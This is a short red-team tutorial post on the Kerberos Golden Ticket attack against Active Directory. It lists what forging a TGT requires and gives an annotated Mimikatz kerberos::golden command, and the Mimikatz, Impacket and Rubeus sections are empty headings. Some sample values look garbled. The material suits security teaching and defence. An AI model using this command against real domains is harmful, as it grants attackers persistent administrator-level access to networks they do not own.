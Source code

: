 ```yaml
---
title:  "Kerberos attacks 4-golden Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 4-golden Ticket"
categories:
  - Red-Teaming
toc: true
---
```


## golden Ticket
* is a famous technique of impersonating users on an AD domain by abusing Kerberos authentication
* A Golden Ticket is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Ticket Granting Tickets (TGTs). This gives the attacker access to any resource on an Active Directory Domain
* Golden Ticket give attackers unrestricted access to networked resources and the ability to forge new tickets, allowing them to reside on networks indefinitely by being disguised as credentialed administrator-level users.





<img src="/img/golden/sid.PNG" alt="Getting-gz" width="800" height="150"> 

## Forging Kerberos Tickets

## requirements for forging TGT
 * Domain Name
 * SID
 * Domain KRBTGT Account NTLM password hash
 * Impersonate user
 * 
```
kerberos::golden  ## Name of the module  
/user:Administrator  ## username of which the TGT is generated
/domain:karim.net  ## Domain 
/sid:5-1-5-21-268341927-4156871508- 1792461683  ## SID of the domain 
/krbtgt:a9b30e5bOdc865eadcea9411e4ade72d   NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys. 
/id:500 /groups:512 Optional User RID (default 500) and Group default 513 512 520 518 519)
/ptt  ## Injects the ticket in current PowerShell process ,no need to save the ticket on disk 
/startoffset:0  ##Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future. 
/endin:600  ##Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes 
/renewmax:10080  ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 
```
## golden ticket with Mimikatz
## golden ticket with Impacket
## golden ticket with Rubeus.exe
